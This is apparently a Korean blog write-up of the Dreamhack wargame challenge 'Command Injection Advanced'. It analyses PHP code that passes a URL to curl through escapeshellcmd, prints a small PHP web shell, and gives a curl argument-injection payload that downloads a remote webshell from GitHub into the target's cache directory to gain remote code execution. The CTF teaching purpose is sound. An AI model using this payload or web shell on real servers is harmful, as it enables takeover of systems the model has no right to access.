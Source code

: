 ```yaml
---
layout: post
published : false  # 글 비공개 설정
title: "[드림핵][Lv.1] Command Injection Advanced 문제 풀이"
date:   2025-07-16 13:00:00 +0900
categories: [Security]
tags: [wargame, web, command-injection]
---
```


## 1. 개요 (Overview)

- **플랫폼 (Platform)**: 드림핵
- **문제 이름 (Challenge)**: Command Injection Advanced
- **분야 (Category)**: 웹해킹
- **문제 링크 (URL)**: [드림핵 워게임](https://dreamhack.io/wargame/challenges/413)


## 2. 문제 분석 (Problem Analysis)

```php
# 예시: app.py
// 1. 'url' 파라미터가 있는지 확인합니다.
if(isset($_GET['url'])){
    $url = $_GET['url'];

    // 2. URL이 'http'로 시작하는지 검사합니다.
    if(strpos($url, 'http') !== 0 ){
        die('http only !');
    }else{
        // 3. (취약점!) curl 명령어를 실행하여 URL 내용을 가져옵니다.
        $result = shell_exec('curl '. escapeshellcmd($_GET['url']));

        // 4. URL을 md5로 해시하여 캐시 파일 경로를 만듭니다.
        $cache_file = './cache/'.md5($url);

        // 5. 가져온 내용을 캐시 파일에 저장합니다.
        file_put_contents($cache_file, $result);

        // 6. 캐시 파일 링크와 결과를 화면에 출력합니다.
        echo "<p>cache file: <a href='{$cache_file}'>{$cache_file}</a></p>";
        echo '<pre>'. htmlentities($result) .'</pre>';
        return;
    }
}else{
    // 'url' 파라미터가 없으면 아무것도 하지 않습니다.
}
```

#### 웹 쉘 파일 
```php
    <?php
    // 'cmd' 라는 이름의 GET 파라미터로 받은 명령어를 실행하고 결과를 출력합니다.
    if(isset($_GET['cmd'])){
        system($_GET['cmd']);
    }
?>
```
- 또는 깃허브에 올라와 있는 webshell 이용  하는게 편함
- [깃허브 webshell](https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php)

<br>
---

### 1) 문제 해설
- 이 문제는 두가지 주요 취약점이 있다. 특히, 첫 번째 취약점은 서버 제어권을 탈취 당 할 수 있는 만큼 매우 치명적인 결함이다.
 

#### 1-1) 명령어 삽입을 통한 원격 코드 실행(RCE)
- scapeshellcmd() 함수는 ;(세미콜론), (or), &(and) 와 같은 쉘 메타 문자를 이스케이프하여 한 줄의 명령 안에서 새로운 명령어를 실행하지 못다로고 방지하는 역할을 한다.
- 이 함수는 명령어에 전달되는 인자 자체를 조작하는 것을 막지 못한다
- 그래서 **curl 명령어의 옵션을 url 파라미터에 전달함녀 잘못된 동작을 유발할** 수 있다.
- 대표적으로 scapeshellcmd() 함수는 하이픈(-)으로 하는 문자열을 막지 못한다.

**(1). 공격자 시나리오(웹쉘 업로드)**
- 공격자가 자신의 서버에 특정 월셀 코드가 들어간 shell.txt 파일을 준비한다.
- 공격자는 아래와 같은 조작된 url 파라미터를 서버로 전송한다.

```php
https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php -o ./cache/exploit.php
```

**가. 페이로드 분석**
- `https://raw.github.../webshell.php`: `curl`이 다운로드할 대상 파일이다.
- 위 파일은 GitHub에 공개된 원격 제어용 웹쉘이다.
- 이 부분은 `http`로 시작하여 `index.php`의 1차 방어 로직(`strpos($url, 'http')`)을 우회 하게 된다.
- `-o ./cache/exploit.php`: `curl`의 **파일 쓰기 옵션**으로, 다운로드한 `webshell.php`의 내용을 서버의 `./cache/` 디렉터리에 `exploit.php`라는 이름으로 저장하도록 한다.

<br>

**나. 공격 실행**
1. 공격자는 브라우저나 curl 도구를 통해 아래와 같이 조작된 URL을 타겟 서버에 요청한다.
~~~ HTTP
http://[타겟 서버 주소]/index.php?url=https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php -o ./cache/exploit.php
~~~

2. 요청 받은 index.php 는 내부적으로 다음과 같은 쉘 명령을 실행하게 된다.

~~~shell
curl https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php -o ./cache/exploit.php
~~~

3. 명령 실행 결과, Githubdp 있던 웹쉘 파일이 서버의 ./cache/exploit.php 경로에 성공적으로 생성된다.

<br>

**다. 원격 코드 실행(RCE)**
- 웹쉘 업로드가 완료되면, 공격자는 해당 파일에 직접 접근하여 서버 제어권을 획득 할 수 있다.

~~~python
http://[타겟 서버 주소]/cache/exploit.php
~~~

- 이제 이 웹수레을 통해, /flag 명령어를 입력하면 flag 값을 확인 할 수 있다.


